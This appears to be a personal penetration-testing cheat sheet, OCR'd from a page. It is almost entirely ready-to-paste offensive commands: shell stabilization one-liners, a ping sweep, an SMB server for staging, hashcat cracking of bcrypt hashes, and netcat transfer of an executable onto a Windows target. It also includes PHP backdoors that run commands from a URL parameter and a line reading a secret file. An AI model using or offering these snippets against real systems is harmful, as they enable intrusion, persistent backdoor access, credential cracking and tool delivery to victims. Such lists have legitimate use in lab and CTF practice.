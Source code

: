 **SHELL STABILIZING**

python2:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

python3:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

***

**NOPASSWD SUDO LD PRELOAD**

https://www.hackingarticles.in/linux-privilege-escalation-using-ld\_preload/

***

**PING SWEEP**

`for i in {1..256}; do ping -c 1 10.0.1.$i | fgrep ttl & done 2>/dev/null | sed -e 's/^.*from //' -e 's/:.*$//' | sort -n -t. -k4`

***

**START A SMBSERVER**

`sudo python3 impacket<path>/smbserver.py <directorypath>`

***

**BYCRYPT HASH CRACKING**

`hashcat -m 3200 hashes /opt/lists/rockyou.txt`

***

**PHP BACKDOORS**

`<?_php_ echo passthru($_GET['cmd']); ?>` `<?_php_ echo system($_GET['cmd']); ?>` `<?php echo file_get_contents('/home/carlos/secret'); ?>` https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php

***

**GREP**

`cat file | grep zip`

\`the most commonly used switches include -r for recursive searching and -i to ignore text case.

***

**TRANSFER FILE WITH NETCAT** On Windows we need to set up a listner `nc -lnvp 4444 > incomming.exe` ON ATTACKER `nc -nv windows.ip 4444 < /usr/share/windows-resources/binaries/wget.exe`

> '<' options throughs file towrads the windows

***
